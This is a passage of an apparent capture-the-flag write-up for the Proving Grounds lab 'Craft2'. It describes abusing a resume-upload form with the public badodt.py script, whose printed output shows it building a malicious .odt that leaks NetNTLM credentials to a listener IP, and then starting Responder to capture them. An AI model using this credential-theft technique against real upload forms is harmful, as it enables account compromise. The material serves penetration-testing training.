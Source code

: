 I checked port 80 and set the host file names as `craft.offsec` and I got that hint through checking the email on this website while checking the contact page 🔻

![Image](Pasted%20image%2020240616110437.png)

There is one Resume upload functionality that takes file as input so I randomly choose a file to see its reaction I got this 🔻

![Image](Pasted%20image%2020240616155105.png)
That means I need to find a payload that will be in `odt` extension.

I got this exploit from the web enumeration 🔽

https://raw.githubusercontent.com/rmdavy/badodf/master/badodt.py

That will generate a payload in `.odt `format along with it need an attackers IP address that will be triggered when upload and the response will be outputted through <mark style="background: #FFB8EBA6;">responder</mark> Tool 🔻

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Craft2]
└─$ python3 badodt.py 

    ____            __      ____  ____  ______
   / __ )____ _____/ /     / __ \/ __ \/ ____/
  / __  / __ `/ __  /_____/ / / / / / / /_    
 / /_/ / /_/ / /_/ /_____/ /_/ / /_/ / __/    
/_____/\__,_/\__,_/      \____/_____/_/     


Create a malicious ODF document help leak NetNTLM Creds

By Richard Davy 
@rd_pentest
Python3 version by @gustanini
www.secureyourit.co.uk


Please enter IP of listener: 192.168.45.214
/home/kali/Downloads/Proving_Ground/Practice/Craft2/bad.odt successfully created
```
{: .nolineno}

Lets upload our <span style="color:#7030a0">bad.odt</span> file that will trigger afterwards.

![Image](Pasted%20image%2020240616105840.png)

![Image](Pasted%20image%2020240616105901.png)
Now According to the exploit I need to start the <mark style="background: #FFB8EBA6;">responder</mark> for the response capture 🔻

![Image](Pasted%20image%2020240616105518.png)

